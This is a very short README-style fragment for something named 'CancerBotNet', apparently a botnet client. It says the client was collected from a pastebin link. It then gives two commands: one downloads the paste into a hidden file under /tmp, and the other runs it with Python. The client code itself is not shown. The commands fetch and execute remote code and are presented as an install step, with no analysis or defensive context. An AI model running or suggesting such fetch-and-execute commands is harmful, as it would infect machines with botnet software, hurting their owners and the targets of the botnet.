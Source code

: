 # CancerBotNet

Collected from https://pastebin.com/raw/vYmycSC2

wget https://pastebin.com/raw/vYmycSC2 -O /tmp/.client.py
python /tmp/.client.py
